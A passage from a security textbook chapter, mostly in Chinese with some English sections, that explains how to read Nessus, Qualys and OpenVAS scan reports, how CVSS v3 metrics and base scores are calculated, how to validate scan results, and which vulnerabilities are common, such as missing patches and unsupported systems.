

图 5.1 Nessus 漏洞扫描报告

让我们逐节查看此报告，从左上角开始，按逆时针方向进行。

在报告的最顶部，我们看到了两个关键细节：漏洞名称，它提供描述性标题，以及漏洞的整体严重性，表示为一般类别，例如低、中、高或严重。在此示例报告中，扫描器正在报告服务器正在运行过时且不安全的 SSL 协议版本。它被分配到高严重性类别。

接下来，报告提供了漏洞的详细描述。在此情况下，报告提供了 SSL 协议缺陷的详细描述，并解释 SSL 不再被认为可接受用于使用。

报告的下一部分提供了漏洞的解决方案。在可能的情况下，扫描器提供了关于系统管理员、安全专业人员、网络工程师和/或应用程序开发人员如何纠正漏洞的详细信息。在此情况下，读者被指示禁用 SSL 2.0 和 3.0，并将其使用替换为 TLS 协议的安全版本。

在报告标题为“另请参阅”的部分中，扫描器提供了参考资料，管理员可以在其中找到有关报告中描述的漏洞的更多详细信息。在此情况下，扫描器将读者引导至几篇博客文章、Nessus 文档页面以及互联网工程任务组（IETF）文档，这些文档提供了有关漏洞的更多详细信息。


# 漏洞报告分析

报告的 `output` 部分显示了在探测漏洞时远程系统返回的详细信息。这些信息对分析师来说可能非常有价值，因为它通常提供了命令返回的原始输出。分析师可以利用这些信息更好地理解扫描器为何报告漏洞，识别漏洞的位置，并可能识别误报报告。在此示例中，output 部分显示了正在使用的特定不安全加密套件。

`port/hosts` 部分提供了包含漏洞的服务器以及该服务器上存在漏洞的特定服务的详细信息。在此示例中，出于隐私原因，服务器的 IP 地址已被隐藏，但我们可以看到该服务器在端口 443 和 4433 上均运行了不安全版本的 SSL。

`vulnerability information` 部分提供了有关漏洞的一些杂项信息。在此示例中，我们看到 SSL 漏洞已出现在新闻报道中。

`risk information` 部分包括用于评估漏洞严重性的有用信息。在此示例中，扫描器报告该漏洞的总体风险因子为 High（与漏洞标题旁边的标签一致）。它还提供了使用通用漏洞评分系统（CVSS）时漏洞的评分详情。你会注意到有两个不同的 CVSS 分数和向量。我们将使用 CVSS 版本 3 的信息，因为它是更新的评分标准。在此示例中，该漏洞的 CVSS 基础分为 7.5，并具有以下 CVSS 向量：

```
CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
```

我们将在本章的下一节中讨论 CVSS 评分的详细信息。

漏洞报告的最后一部分提供了检测该问题的漏洞扫描器插件的详细信息。该漏洞由 Nessus 插件 ID 20007 报告，该插件于 2005 年 10 月发布，并在 2019 年 3 月更新。

尽管本章重点介绍如何解读 Nessus 漏洞扫描的详细信息，但其他漏洞扫描器的流程极其相似。不同产品生成的报告格式可能有所不同，但它们通常包含相同的信息。例如，图 5.2 显示了 Qualys 漏洞扫描的输出，而 图 5.3 显示了 OpenVAS 漏洞扫描的输出。



图 5.2 Qualys 漏洞扫描报告



图 5.3 OpenVAS 漏洞扫描报告

# 理解 CVSS

`通用漏洞评分系统（CVSS）` 是评估安全漏洞严重性的行业标准。它提供了一种在多种度量上对每个漏洞进行评分的技术。网络安全分析师通常使用 CVSS 评级来优先处理响应操作。

对新漏洞进行评分的分析师首先会根据八个不同的度量对漏洞进行评级。每个度量既给出描述性评级，也给出数值分数。前四个度量评估漏洞的可利用性，而最后三个度量评估漏洞的影响。第八个度量讨论漏洞的范围。

## 攻击向量度量

`攻击向量度量` 描述了攻击者如何利用漏洞，并根据 表 5.1 中显示的标准进行分配。

表 5.1 CVSS 攻击向量度量

| 值 || 描述 || 分数 |

| --- | --- | --- |

| 物理 (P) || 攻击者必须物理接触易受攻击的设备。 || 0.20 |

| --- | --- | --- |

| 本地 (L) || 攻击者必须对受影响系统具有物理或逻辑访问权限。 || 0.55 |

| 相邻网络 (A) || 攻击者必须能够访问受影响系统所连接的本地网络。 || 0.62 |

| 网络 (N) || 攻击者可以通过网络远程利用漏洞。 || 0.85 |

## 攻击复杂度度量

`攻击复杂度度量` 描述了利用漏洞的难度，并根据 表 5.2 中显示的标准进行分配。

表 5.2 CVSS 攻击复杂度度量

| 值 || 描述 || 分数 |

| --- | --- | --- |

| 高 (H) || 利用漏洞需要“特殊”的条件，这些条件难以找到。 || 0.44 |

| --- | --- | --- |

| 低 (L) || 利用漏洞不需要任何特殊条件。 || 0.77 |

## 所需权限度量

`所需权限度量` 描述了攻击者利用漏洞所需的账户访问类型，并根据 表 5.3 中的标准进行分配。

表 5.3 CVSS 所需权限度量

| 值 || 描述 || 分数 |

| --- | --- | --- |

| 高 (H) || 攻击者需要管理员权限才能进行攻击。 || 0.270（如果范围已更改，则为 0.50） |

| --- | --- | --- |

| 低 (L) || 攻击者需要基本用户权限才能进行攻击。 || 0.62（如果范围已更改，则为 0.68） |

| 无 (N) || 攻击者无需进行身份验证即可利用漏洞。 || 0.85 |

## 用户交互度量

`用户交互度量` 描述了攻击者是否需要在攻击中涉及另一个人。用户交互度量根据 表 5.4 中的标准进行分配。

表 5.4 CVSS 用户交互度量

| 值 || 描述 || 分数 |

| --- | --- | --- |

| 无 (N) || 成功利用不需要除攻击者之外的任何用户采取行动。 || 0.85 |

| --- | --- | --- |

| 需要 (R) || 成功利用需要除攻击者之外的用户采取行动。 || 0.62 |

# 机密性度量

`机密性度量` 描述了如果攻击者成功利用漏洞，可能发生的信息泄露类型。机密性度量根据 表 5.5 中的标准进行分配。

表 5.5 CVSS 机密性度量

| 值 || 描述 || 分数 |

| --- | --- | --- |

| 无 (N) || 没有机密性影响。 || 0.00 |

| --- | --- | --- |

| 低 (L) || 可以访问某些信息，但攻击者无法控制哪些信息被泄露。 || 0.22 |

| 高 (H) || 系统上的所有信息都被泄露。 || 0.56 |

## 完整性度量

`完整性度量` 描述了如果攻击者成功利用漏洞，可能发生的信息篡改类型。完整性度量根据 表 5.6 中的标准进行分配。

表 5.6 CVSS 完整性度量

| 值 || 描述 || 分数 |

| --- | --- | --- |

| 无 (N) || 没有完整性影响。 || 0.00 |

| --- | --- | --- |

| 低 (L) || 可能修改某些信息，但攻击者无法控制修改哪些信息。 || 0.22 |

| 高 (H) || 系统的完整性完全被破坏，攻击者可以随意更改任何信息。 || 0.56 |

## 可用性度量

`可用性度量` 描述了如果攻击者成功利用漏洞，可能发生的中断类型。可用性度量根据 表 5.7 中的标准进行分配。

表 5.7 CVSS 可用性度量

| 值 || 描述 || 分数 |

| --- | --- | --- |


| None (N) | 没有可用性影响。 | 0.00 |

| --- | --- | --- |

| Low (L) | 系统性能下降。 | 0.22 |

| High (H) | 系统完全关闭。 | 0.56 |

#### Scope Metric

The `scope metric` describes whether the vulnerability can affect system components beyond the scope of the vulnerability. The scope metric is assigned according to the criteria in Table 5.8. Note that the scope metric table does not contain score information. The value of the scope metric is reflected in the values for the privileges required metric, shown earlier in Table 5.3.

TABLE 5.8 CVSS scope metric

| Value | Description |

| --- | --- |

| Unchanged (U) | The exploited vulnerability can only affect resources managed by the same security authority. |

| --- | --- |

| Changed (C) | The exploited vulnerability can affect resources beyond the scope of the security authority managing the component containing the vulnerability. |

#### Interpreting the CVSS Vector

The `CVSS vector` uses a single‐line format to convey the ratings of a vulnerability on all eight of the metrics described in the preceding sections. For example, recall the CVSS vector presented in Figure 5.1:

```
CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
```

This vector contains nine components. The first section, `CVSS:3.0`, simply informs the reader (human or system) that the vector was composed using CVSS version 3. The next eight sections correspond to each of the eight CVSS metrics. In this case, the SSL vulnerability in Figure 5.1 received the following ratings:

*   `Attack Vector:` Network (score: 0.85)

*   `Attack Complexity:` Low (score: 0.77)

*   `Privileges Required:` None (score: 0.85)

*   `User Interaction:` None (score: 0.85)

*   `Scope:` Unchanged

*   `Confidentiality:` High (score: 0.56)

*   `Integrity:` None (score: 0.00)

*   `Availability:` None (score: 0.00)

#### Summarizing CVSS Scores

The CVSS vector provides good detailed information on the nature of the risk posed by a vulnerability, but the complexity of the vector makes it difficult to use in prioritization exercises. For this reason, analysts can calculate the `CVSS base score`, which is a single number representing the overall risk posed by the vulnerability. Arriving at the base score requires first calculating the `impact sub‐score`, the `impact score` and the `exploitability score`.

##### Calculating the Impact Sub‐Score (ISS)

The first calculation analysts perform is computing the impact sub‐score (ISS). This metric summarizes the three impact metrics using the following formula:

<math display="block" xmlns="http://www.w3.org/1998/Math/MathML"><mrow><mi mathvariant="normal">ISS</mi><mo>=</mo><mn>1</mn><mo>&#8722;</mo><mrow><mo>\[</mo><mrow><mrow><mo>(</mo><mrow><mn>1</mn><mo>&#8722;</mo><mi mathvariant="normal">Confidentiality</mi></mrow><mo>)</mo></mrow><mo>&#215;</mo><mrow><mo>(</mo><mrow><mn>1</mn><mo>&#8722;</mo><mi mathvariant="normal">Integrity</mi></mrow><mo>)</mo></mrow><mo>&#215;</mo><mrow><mo>(</mo><mrow><mn>1</mn><mo>&#8722;</mo><mi mathvariant="normal">Availability</mi></mrow><mo>)</mo></mrow></mrow><mo>\]</mo></mrow></mrow></math>

Plugging in the values for our SSL vulnerability, we obtain:

<math display="block" xmlns="http://www.w3.org/1998/Math/MathML"><mrow><mtable columnalign="left"><mtr><mtd><mrow><mi mathvariant="normal">ISS</mi></mrow></mtd><mtd><mrow><mo>=</mo><mspace width="0.25em"/><mn>1</mn><mo>&#8722;</mo><mrow><mo>\[</mo><mrow><mrow><mo>(</mo><mrow><mn>1</mn><mo>&#8722;</mo><mn>0.56</mn></mrow><mo>)</mo></mrow><mo>&#215;</mo><mrow><mo>(</mo><mrow><mn>1</mn><mo>&#8722;</mo><mn>0.00</mn></mrow><mo>)</mo></mrow><mo>&#215;</mo><mrow><mo>(</mo><mrow><mn>1</mn><mo>&#8722;</mo><mn>0.00</mn></mrow><mo>)</mo></mrow></mrow><mo>\]</mo></mrow></mrow></mtd></mtr><mtr><mtd><mrow><mi mathvariant="normal">ISS</mi></mrow></mtd><mtd><mrow><mo>=</mo><mspace width="0.25em"/><mn>1</mn><mo>&#8722;</mo><mrow><mo>\[</mo><mrow><mn>0.44</mn><mo>&#215;</mo><mn>1.00</mn><mo>&#215;</mo><mn>1.00</mn></mrow><mo>\]</mo></mrow></mrow></mtd></mtr><mtr><mtd><mrow><mi mathvariant="normal">ISS</mi></mrow></mtd><mtd><mrow><mo>=</mo><mspace width="0.25em"/><mn>1</mn><mo>&#8722;</mo><mn>0.44</mn></mrow></mtd></mtr><mtr><mtd><mrow><mi mathvariant="normal">ISS</mi></mrow></mtd><mtd><mrow><mo>=</mo><mspace width="0.25em"/><mn>0.56</mn></mrow></mtd></mtr></mtable></mrow></math>

##### Calculating the Impact Score

To obtain the impact score from the impact sub‐score, we must take the value of the scope metric into account. If the scope metric is Unchanged, as it is in our example, we multiply the ISS by 6.42:

<math display="block" xmlns="http://www.w3.org/1998/Math/MathML"><mrow><mtable columnalign="left"><mtr><mtd><mrow><mi mathvariant="normal">Impact</mi></mrow></mtd><mtd><mrow><mo>=</mo><mspace width="0.25em"/><mspace width="0.25em"/><mn>6.42</mn><mo>&#42;</mo><mi mathvariant="normal">ISS</mi></mrow></mtd></mtr><mtr><mtd><mrow><mi mathvariant="normal">Impact</mi></mrow></mtd><mtd><mrow><mo>=</mo><mspace width="0.25em"/><mn>6.42</mn><mo>&#42;</mo><mn>0.56</mn></mrow></mtd></mtr><mtr><mtd><mrow><mi mathvariant="normal">Impact</mi></mrow></mtd><mtd><mrow><mo>=</mo><mspace width="0.25em"/><mn>3.60</mn></mrow></mtd></mtr></mtable></mrow></math>

If the scope metric is Changed, we use a more complex formula:

<math display="block" xmlns="http://www.w3.org/1998/Math/MathML"><mrow><mtext>Impact</mtext><mo>=</mo><mn>7.52</mn><mo>&#215;</mo><mrow><mo>(</mo><mrow><mtext>ISS</mtext><mo>&#8211;</mo><mn>0.029</mn></mrow><mo>)</mo></mrow><mo>&#8722;</mo><mn>3.25</mn><mo>&#215;</mo><msup><mrow><mrow><mo>(</mo><mrow><mtext>ISS</mtext><mo>&#8211;</mo><mn>0.02</mn></mrow><mo>)</mo></mrow></mrow><mrow><mn>15</mn></mrow></msup></mrow></math>

##### Calculating the Exploitability Score

Analysts may calculate the exploitability score for a vulnerability using this formula:

<math display="block" xmlns="http://www.w3.org/1998/Math/MathML"><mtable columnalign="left"><mtr><mtd><mi mathvariant="normal">Exploitability</mi><mo>=</mo><mspace width="0.25em"/><mn>8.22</mn><mo>&#215;</mo><mi mathvariant="normal">Attack</mi><mspace width="0.25em"/><mi mathvariant="normal">Vector</mi><mo>&#215;</mo><mi mathvariant="normal">Attack</mi><mspace width="0.25em"/><mi mathvariant="normal">Complexity</mi></mtd></mtr><mtr><mtd><mo>&#215;</mo><mspace width="0.25em"/><mi mathvariant="normal">Privileges</mi><mspace width="0.25em"/><mi mathvariant="normal">Required</mi><mo>&#215;</mo><mi mathvariant="normal">User</mi><mspace width="0.25em"/><mi mathvariant="normal">Interaction</mi></mtd></mtr></mtable></math>

Plugging in values for our SSL vulnerability, we get:

<math display="block" xmlns="http://www.w3.org/1998/Math/MathML"><mrow><mtable columnalign="left"><mtr><mtd><mrow><mi mathvariant="normal">Exploitability</mi></mrow></mtd><mtd><mrow><mo>=</mo><mspace width="0.25em"/><mn>8.22</mn><mo>&#215;</mo><mn>0.85</mn><mo>&#215;</mo><mn>0.77</mn><mo>&#215;</mo><mn>0.85</mn><mo>&#215;</mo><mn>0.85</mn></mrow></mtd></mtr><mtr><mtd><mrow><mi mathvariant="normal">Exploitability</mi></mrow></mtd><mtd><mrow><mo>=</mo><mspace width="0.25em"/><mn>3.89</mn></mrow></mtd></mtr></mtable></mrow></math>

##### Calculating the Base Score

With all of this information at hand, we can now determine the CVSS base score using the following rules:

*   If the impact is 0, the base score is 0.

*   If the scope metric is Unchanged, calculate the base score by adding together the impact and exploitability scores.


如果评分范围（Scope metric）为 Changed，则通过将影响分（impact score）与可利用性分（exploitability score）相加，并将结果乘以 1.08 来计算基础分（base score）。

基础分的最高可能值为 10。如果计算值大于 10，则将基础分设置为 10。

在我们的示例中，影响分为 3.60，可利用性分四舍五入后为 3.9。将两者相加，得到基础分为 7.5，这与 Figure 5.1 中的值相同。

### Categorizing CVSS Base Scores

许多漏洞扫描系统会使用风险类别而非数字风险评级来进一步总结 CVSS 结果。这些通常基于 CVSS Qualitative Severity Rating Scale，如 Table 5.9 所示。

TABLE 5.9 CVSS Qualitative Severity Rating Scale

| CVSS Score | Rating |
| --- | --- |
| 0.0 | None |
| 0.1–3.9 | Low |
| 4.0–6.9 | Medium |
| 7.0–8.9 | High |
| 9.0–10.0 | Critical |

继续使用 Figure 5.1 中的 SSL 漏洞示例，我们为此漏洞计算出的 CVSS 分数为 7.5。这将其归类为高风险类别，如 Figure 5.1 标题所示。

## Validating Scan Results

网络安全分析师在解读报告时，通常会自行调查以确认漏洞的存在和严重程度。这种裁决可能包括使用提供对分析有价值的额外信息的外部数据源。

### False Positives

漏洞扫描器是有用的工具，但并非万无一失。扫描器有时会因各种原因出错。扫描器可能没有足够的访问权限来确认目标系统上的漏洞，或者可能只是插件中存在生成错误漏洞报告的错误。当扫描器报告不存在的漏洞时，这被称为 *false positive error*。

网络安全分析师应确认扫描器报告的每个漏洞。在某些情况下，这可能只是验证是否缺少补丁或操作系统是否过时。在其他情况下，验证漏洞需要复杂的手动过程来模拟攻击。例如，验证 SQL 注入漏洞可能需要实际尝试针对 Web 应用程序的攻击，并在后端数据库中验证结果。

在验证漏洞时，分析师应借鉴自身专业知识以及组织内其他人的主题专业知识。数据库管理员、系统工程师、网络技术人员、软件开发人员和其他专家拥有评估潜在误报报告所必需的领域知识。

### Documented Exceptions

在某些情况下，组织可能出于某些原因决定不修复漏洞。例如，组织可能决定业务要求使用不再受支持的操作系统。同样，开发经理可能决定，修复仅暴露于内部网络的 Web 应用程序中的漏洞的成本超过了安全效益。

除非分析师采取一些措施记录这些例外情况，否则漏洞扫描将在每次扫描时继续报告它们。最好在漏洞管理系统中记录例外情况，以便扫描器知道在未来的报告中忽略它们。这减少了扫描报告中的噪音级别，并提高了其对分析师的实用性。

### Understanding Informational Results

漏洞扫描器在使用默认配置运行时，通常会提供非常详细的信息。漏洞扫描器报告的并非所有内容都代表重大安全问题。尽管如此，扫描器会尽可能提供大量信息，以显示攻击者在进行侦察扫描时可能能够收集的信息类型。这些信息也为寻求收集潜在目标系统信息的渗透测试人员提供了重要的侦察。

Figure 5.4 显示了针对 Web 服务器运行的漏洞扫描生成的高级别报告示例。请注意，该报告中约三分之二的漏洞属于“Info”风险类别。这表明提供结果的插件甚至没有按照 CVSS 进行分类。相反，它们只是信息性结果。在某些情况下，它们是扫描器对系统所做的观察，而在其他情况下，它们可能指系统配置中缺乏最佳实践。大多数组织不会费力去解决系统的所有信息性结果，因为这样做可能很困难，甚至不可能。



FIGURE 5.4 Scan report showing vulnerabilities and best practices

遇到 Figure 5.4 中扫描报告的渗透测试人员应首先关注存在的高严重性 SQL 注入漏洞。这是一个非常严重的漏洞，可能为破坏系统底层数据库提供直接路径。如果该利用没有效果，七个中等严重性漏洞可能提供潜在访问。其余的信息性漏洞对于侦察很有用，但可能不会提供破坏的直接路径。

许多组织将采用正式政策来处理这些来自修复角度的信息性消息。例如，一些组织可能决定，一旦消息在两次或三次连续扫描中出现，他们就会创建日志条目记录他们为响应消息所采取的行动或他们选择不采取行动的原因。这种方法对于受到高度审计且具有严格合规要求的组织尤其重要。创建决策过程的正式记录可以让审计师满意，表明组织进行了应有的尽职调查。

### Reconciling Scan Results with Other Data Sources

漏洞扫描不应在真空中进行。解读这些报告的渗透测试人员在进行分析时也应参考其他安全信息来源。当可用于渗透测试人员时，以下信息来源也可能包含有价值的信息：

*   来自服务器、应用程序、网络设备和其他来源的 *Logs*，这些来源可能包含关于尝试利用检测到的漏洞的信息
*   从多个来源关联日志条目并提供可操作情报的 *Security information and event management (SIEM)* 系统
*   提供系统上安装的操作系统和应用程序信息的 *Configuration management systems*

当渗透测试人员试图将扫描报告与组织计算环境的现实相协调时，这些信息来源中的每一个都可能非常宝贵。

### Trend Analysis

趋势分析也是漏洞扫描计划的重要组成部分。管理人员应关注漏洞的总体趋势，包括随时间推移出现的新漏洞数量、现有漏洞的年龄以及修复漏洞所需的时间。Figure 5.5 显示了 Nessus 中可用的趋势分析报告示例。


FIGURE 5.5 Vulnerability trend analysis ¶ Source: Tenable Network Security, Inc.

## Common Vulnerabilities


每个漏洞扫描系统都包含能够检测数千种可能漏洞的插件，这些漏洞范围从 Web 应用程序中的重大 SQL 注入缺陷到网络设备中较为普通的信息泄露问题。尽管不可能在任何长度的书中讨论每个漏洞，但渗透测试人员应该熟悉最常被检测到的漏洞以及涵盖许多不同漏洞变体的一些一般类别。

第 4 章讨论了定期更新漏洞扫描器的重要性，以使其对新发现的威胁有效。虽然这是事实，但同样重要的是要注意，即使是旧漏洞也可能对组织的安全构成重大问题。每年，Verizon 都会对其在过去一年中调查的所有数据泄露进行广受尊敬的分析。图 5.6 显示了 2016 年 `Data Breach Investigations Report` 的部分结果。（请注意，Verizon 仍然继续每年发布这些报告，但不再包含发现年份数据。）

图 5.6 强调了解决旧漏洞的重要性以及许多组织未能做到这一点的残酷现实。2015 年数据泄露中被利用的许多漏洞是在十多年前被发现的。这是一个惊人的统计数据。


FIGURE 5.6 Vulnerabilities exploited in 2015 by year of initial discovery ¶ Source: Verizon `Data Breach Investigations Report`

### 服务器和终端漏洞

计算机系统非常复杂。操作系统运行在服务器和终端上，由数百万行代码组成，它们运行的应用程序组合各不相同，使得每个系统都相当独特。因此，扫描检测到的许多漏洞都存在于服务器和终端系统上，而且这些漏洞通常是最难以修复的漏洞之一。这使得它们成为渗透测试人员的有吸引力的目标。

#### 缺少补丁

将安全补丁应用于系统应该是任何信息安全计划的核心实践之一，但由于缺乏预防性维护资源，这项常规任务往往被忽视。漏洞扫描最常见的警报之一是网络上有一个或多个系统正在运行过时版本的操作系统或应用程序，并且需要安全补丁。渗透测试人员可能会利用这些缺失的补丁，利用操作系统的弱点。

图 5.7 显示了其中一个扫描结果的示例。位于 `10.64.142.211` 的服务器存在远程代码执行漏洞。尽管扫描结果相当简短，但它确实包含相当多的有用信息：

*   描述告诉我们，这是 Windows HTTP 堆栈中的一个缺陷。

*   报告输出部分中的服务信息确认，该服务器正在 TCP 端口 `443` 上运行 HTTPS 服务。

*   我们在标题中看到这是一个严重漏洞，这在风险信息部分得到了确认，在那里我们看到它的 CVSS 基础分为 `10`。


FIGURE 5.7 Missing patch vulnerability

幸运的是，解决这个问题有一个简单的方法。解决方案部分告诉我们，Microsoft 已经为受影响的操作系统发布了补丁，“另请参阅”部分提供了指向 Microsoft 安全公告 (`MS15‐034`) 的直接链接，该公告更详细地描述了问题和解决方案。

#### 不受支持的操作系统和应用程序

软件供应商最终会停止对其制造的每个产品的支持。这对操作系统和应用程序都适用。一旦供应商宣布产品最终停止支持，继续运行过时软件的组织就会面临重大攻击风险。供应商不会调查或纠正该日期后产品中出现的安全缺陷。继续运行不受支持产品的组织从安全角度来看只能自求多福，除非你碰巧维护着一支操作系统开发团队，否则这不是一个理想的处境。

从渗透测试人员的角度来看，不受支持软件的报告是信息的宝库。它们对 IT 团队来说很难修复，并提供了潜在的利用途径。

也许最著名的主要操作系统停止支持发生在 2015 年 7 月，当时 Microsoft 停止了对十多年前的 Windows Server 2003 的支持。图 5.8 显示了 Nessus 在识别运行此过时操作系统的服务器时生成的报告示例。

我们可以从这个报告中看到，扫描检测到网络上有两台服务器正在运行 Windows Server 2003。漏洞描述对继续运行任何不受支持操作系统的组织所面临的情况进行了严峻的评估：

> 缺乏支持意味着供应商不会为该产品发布任何新的安全补丁。因此，它很可能包含安全漏洞。此外，Microsoft 不太可能调查或承认漏洞报告。


FIGURE 5.8 Unsupported operating system vulnerability

对于运行不受支持操作系统的组织来说，解决方案在措辞上简单，但在实施上复杂：“升级到当前受支持的 Windows 版本”是一个相当直接的指令，但对于运行无法升级到较新版本 Windows 的应用程序的组织来说，这可能是一个重大挑战。在组织必须继续使用不受支持操作系统的情况下，最佳实践规定尽可能隔离系统，最好不要将其连接到任何网络，并应用尽可能多的补偿安全控制措施，例如增加监控和实施严格的网络防火墙规则。

#### 缓冲区溢出

当攻击者操纵程序将比程序分配使用的更多数据放入内存区域时，就会发生缓冲区溢出攻击。目标是用可能由系统上运行的不同进程执行的指令覆盖内存中的其他信息。

